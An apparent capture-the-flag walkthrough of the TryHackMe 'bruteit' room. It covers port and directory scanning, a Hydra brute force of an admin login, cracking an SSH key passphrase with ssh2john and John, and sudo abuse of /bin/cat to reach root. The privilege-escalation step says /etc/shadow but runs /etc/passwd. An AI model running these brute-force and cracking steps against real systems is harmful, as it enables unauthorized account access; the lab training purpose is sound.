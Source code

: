 # 5 - bruteit

Room Link --> [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

Starting with an Nmap search:

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p- -Pn -n 10.10.43.114 --min-rate 20000

# results:
ports 22 and 80 are open.
```
{% endcode %}

Dirbusting with gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.43.114 -w /usr/share/wordlists/dirb/common.txt -t 300 2>/dev/null

# results:
Found a secret dir --> /admin
```
{% endcode %}

[http://10.10.43.114/admin/](http://10.10.43.114/admin/) --> this takes us to a login page, we viewed source code, and found the username is "admin".

Bruteforcing Login with Hydra.

From the developers option we craft our hydra payload.

<figure><img src=".gitbook/assets/Screenshot_20230901_085800.png" alt=""><figcaption><p>POST request to /admin/</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot_20230901_085820.png" alt=""><figcaption><p>POST data values</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>grep keyword</p></figcaption></figure>

Our payload will now be:

{% code overflow="wrap" lineNumbers="true" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.43.114 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login with credentials:

<figure><img src=".gitbook/assets/Screenshot_20230901_085256.png" alt=""><figcaption></figcaption></figure>

There's an SSH private key on the page, after downloading it, and trying to use it to login with "john" as username to SSH, it requested for a key.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use "ssh2john" to crack it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we convert the private key to john crackable format.
ssh2john id_rsa > hash.txt

# crack with john.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can login to SSH now:

```
# give required permissions for the key
chmod 600 id_rsa

# login
ssh john@10.10.43.114 -i id_rsa
```

Login Success.

User flag is there.

### Privilege Escalation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l

# there is a "/bin/cat" binary, we go to gtfobins and check how to exploit it.
# we can cat the /etc/shadow content, and crack root password.
sudo /bin/cat /etc/passwd
# then crack it with john.
su root # input password and BOOM!
```
{% endcode %}
